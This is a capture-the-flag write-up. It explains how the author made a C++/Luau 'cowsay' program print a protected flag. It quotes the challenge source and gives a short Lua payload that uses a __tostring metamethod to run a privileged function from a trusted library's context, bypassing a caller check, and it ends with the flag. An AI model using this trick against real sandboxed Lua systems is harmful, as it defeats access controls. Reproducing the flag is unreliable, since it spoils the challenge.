





# 

## Description

Cows are violent criminals. So we jail them. Anyways enjoy this cowsay program!

## Attachments


## Solving Steps

### Step 1: Finding Out What a Cowsay Program Is

---

I didn't know what a cowsay program was so I searched it up on Google. Turns out it's just a simple program that displays an ASCII cow speaking. Here's an example:

    / You have Egyptian flu: you're going to \
    \ be a mummy.                            /
     ----------------------------------------
            \   ^__^
             \  (oo)\_______
                (__)\       )\/\
                    ||----w |
                    ||     ||

Pretty funny.

### Step 2: Analyze the Given Files

---

We're given tons of files, but the ones that are important are:

- main.cpp
- cowsayLib.cpp & cowsayLib.h
- security.cpp
- lib.lua

Seems like this program runs in C++ and Lua (a dead language if it weren't for Roblox). The goal in this challenge is to make the cow print out the flag.

---

```cpp
int printFlag(lua_State *L) {
    // add the flag to the stack
    lua_getglobal(L, "print");
    lua_pushstring(L, flag.c_str());
    lua_call(L, 1, 0);
    return 0;
}
```

First, let's analyze the main.cpp file. Above is a piece of code found in the main.cpp file. Seems to be the function that prints out the flag.

---

```cpp
static const luaL_Reg seFuncs[] = {
    {"printflag", printFlag},
    {NULL, NULL},
};

int openSecure(lua_State *L) {
    luaL_register(L, "secure", seFuncs);

    return 1;
}
```

Next, it seems that the printFlag function is sent into a table named secure with its new name "printflag". So, we can assume that to access the printFlag function, we need to call secure.printflag().

---



However, typing secure.printflag() into the program directly will result in the program printing out "Attempt to call secured function from a forbidden source".

---

```cpp
static int secureDecorator(lua_State *L) {
    int i = 1;
    lua_Debug ar;
    bool allowed = false;
    while (lua_getinfo(L, i++, "s", &ar) == 1) {
        // look for permitted source
        if (strcmp(ar.source, COWSAY_LIB_NAME) == 0) {
            allowed = true;
            break;
        }
    }

    if (!allowed) {
        luaL_error(L, "Attempt to call secured function from a forbidden source");
    }
    // call the function
    // push function on to the stack and then args
    lua_pushvalue(L, lua_upvalueindex(1));
    lua_insert(L, 1);

    lua_call(L, lua_gettop(L) - 1, LUA_MULTRET);

    return lua_gettop(L); // return all results
}
```

This turns out to be a feature from the security.cpp file. It checks the input and if it doesn't match this variable named COWSAY_LIB_NAME, then allowed will be equal to false which will result in the error being printed out. In order to do inputs successfully, we need to find out what the COWSAY_LIB_NAME actually contains.

---

```cpp
#pragma once

#include "lua.h"

#define COWSAY_LIB_NAME "cowsay"

void loadCowsayLib(lua_State *L);
```

We can deduce what COWSAY_LIB_NAME is through the cowsayLib.h file. It defines COWSAY_LIB_NAME as "cowsay". But what exactly is cowsay?

---

```cpp
void loadCowsayLib(lua_State *L) {
    // load the lib from lib.lua
    // read from file
    std::ifstream file("lib.lua");
    std::string source((std::istreambuf_iterator<char>(file)), std::istreambuf_iterator<char>());

    // get the global table
    size_t bytecodeSize = 0;
    char* bytecode = luau_compile(source.data(), source.length(), nullptr, &bytecodeSize);

    lua_State* T = lua_newthread(L);
    luaL_sandboxthread(T);

    int result = luau_load(T, COWSAY_LIB_NAME, bytecode, bytecodeSize, 0);
    assert(result == 0);

    int status = lua_resume(T, NULL, 0);
    assert(status == 0);
    assert(lua_gettop(T) == 1); // one return value

    lua_xmove(T, L, 1); // move the module to the main thread
    lua_pushvalue(L, -1);
    lua_setglobal(L, COWSAY_LIB_NAME);

    lua_remove(L, -2); // pop the thread
}
```

Turns out, in the cownsayLib.cpp file, it takes lib.lua and changes it's name into cowsay. What's inside lib.lua? The lib.lua file is basically a module (or modulescript for the Roblox devs). It's a script that returns a table, usually named module, that contains a bunch of functions which you can then run on another file that references that module. This makes reusing functions between multiple files much easier.

---



Trying to call cowsay("Hello") will result in an ASCII cow saying "Hello".

---



Since typing secure.printflag() directly didn't work before, let's try to call it inside cowsay(). Doing this didn't work either and would result in the same results as the previous failed attempt.

---

```lua
function module.print(text)
    print(module.format(text))
end

function module.format(text)
    text = tostring(text)
    -- limit to 40 characters
    -- validate utf8
    local len = utf8.len(text)
    if len == nil then
        return nil
    end

    if len > 40 then
        local offset = utf8.offset(text, 41)
        text = string.sub(text, 1, offset - 1) .. "..."
        len = 43
    end

    local top = string.rep("_", len + 2)
    local bottom = string.rep("-", len + 2)

    return cowsay_template:format(top, text, bottom)
end
```

However, there's a slight flaw in the lib.lua file that we can use to our advantage. It lies in the tostring() command. I didn't know about it either until doing this challenge.

From the official Lua 5.1 Reference Manual (<a href="https://www.lua.org/manual/5.1/manual.html#2.8">click here to see the documentation</a>), it says this under the tostring(e) command documentation: <b>"If the metatable of e has a "\_\_tostring" field, then tostring calls the corresponding value with e as argument, and uses the result of the call as its result."</b>

---

This means that if we pass in a metatable that contains a **tostring which contains a function into cowsay(), then it'll run the function inside of **tostring instead. This means that it is possible to run secure.printFlag() inside of the trusted lib.lua file. Bingo, lets test it out.

---

```lua
setmetatable({}, {
    __tostring = function()
        secure.printflag()
        return ""
    end
})
```

This will be our payload that will be passed on into cowsay().

---



The flag is revealed by the cow.

**`.;,;.{luau_is_used_in_roblox_btw._cowsays_moo}`**

### What I Learned

This challenge is pretty interesting for me because the very first programming language I touched and learned is Lua. I never knew that if you passed a metatable with **tostring containg a function into tostring() that it'll run anything that's inside of the **tostring method.

This is also the first CTF challenge I've encountered using the Lua programming language. I think it's really creative and I hope I encounter more Lua based CTF challenges in the future.
